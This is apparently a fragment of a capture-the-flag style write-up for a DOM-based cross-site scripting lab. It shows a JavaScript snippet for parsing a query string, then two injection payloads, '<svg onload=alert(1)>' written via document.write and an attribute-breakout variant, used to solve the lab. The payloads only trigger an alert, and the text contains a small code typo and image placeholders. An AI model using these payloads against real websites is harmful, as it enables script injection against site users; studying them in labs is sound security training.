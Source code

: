 Corresponding `.js `code
```
const anchor = document.getElementById("myAnchor");

const queryString = anchor.search; // Returns:'?q=123'

// Further parsing:

const params = new URLSearchParams(queryString);

const q = parseInt(params.get("q")); // is the number 123
```

Now we try to use this knowledge to solve this lab

Now
```
<script>  
letuserInput = "<svg onload=alert(1)>";  
document.write(userInput);  
</script>
```

<img src="images/image8.png" alt="third" width="500">

And lab will solve


**Or alternative**

`"><svg onload=alert(1)>`

<img src="images/image9.png" alt="third" width="500">
